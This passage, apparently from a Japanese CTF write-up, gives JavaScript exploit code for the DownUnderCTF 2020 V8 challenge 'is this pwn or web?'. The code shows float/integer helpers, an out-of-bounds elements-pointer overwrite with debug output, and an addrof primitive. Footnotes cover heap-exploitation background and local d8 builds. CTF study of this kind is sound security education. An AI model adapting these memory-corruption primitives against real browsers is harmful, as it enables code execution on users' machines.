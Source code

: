 ## Code

- gist: [DownUnserCTF 2020 - is this pwn or web?](https://gist.github.com/Xornet-Euphoria/64285c7b98bf09638145534ba8418fe3)

```javascript
// utility functions

// convert float64 <-> uint64
let buf = new ArrayBuffer(8);
let float_buf = new Float64Array(buf);
let uint_buf = new BigUint64Array(buf);

function f2i(v) {
    float_buf[0] = v;
    return uint_buf[0];
}

function i2f(v) {
    uint_buf[0] = v;
    return float_buf[0];
}

// print utils
function hexPrint(v) {
    console.log("0x" + v.toString(16));
}

// --------------------------------------------------

// addrof
// using sharing elements between float_arr and obj_arr
// ref: https://seb-sec.github.io/2020/09/28/ductf2020-pwn-or-web.html
let float_arr = [1.1];
let obj_arr = [{A:1}];

float_arr = float_arr.slice(0);
obj_arr = obj_arr.slice(0);

/*
d8> %DebugPrint(obj_arr)
DebugPrint: 0x32e808084d2d: [JSArray]
 - map: 0x32e80824394d <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x32e80820a555 <JSArray[0]>
 - elements: 0x32e808084d21 <FixedArray[1]> [PACKED_ELEMENTS]
 ...
d8> %DebugPrint(float_arr)
DebugPrint: 0x32e808084d11: [JSArray]
 - map: 0x32e8082438fd <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x32e80820a555 <JSArray[0]>
 - elements: 0x32e808084d01 <FixedDoubleArray[1]> [PACKED_DOUBLE_ELEMENTS]
 ...
*/
// diff: 0x20

// pElements of float_arr = pElements of obj_arr
let obj_elm = f2i(float_arr[2]) + 0x20n; // from DebugPrint and gdb
float_arr[2] = i2f(obj_elm);

function addrof(o) {
    obj_arr[0] = o;
    return f2i(float_arr[0]) & 0xffffffffn;  // note: ptr is compressed in v8 heap
}

```

[^1]: Heap Exploitの簡単な問題を解いたことがある(私自身がこれ)ぐらいを想定しているが、AARとAAWが出来ると何が嬉しいかなんとなくわかっていれば問題ないと思う
[^2]: 手元でビルドするメリットも存在し、[katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=28)によれば、printfやインラインアセンブリ(`int3`)によるデバッグの効率化等があるらしい
[^3]: 脆弱性を埋め込むパッチを埋め込んでいない場合は、配列の外側を参照することになるためundefinedになる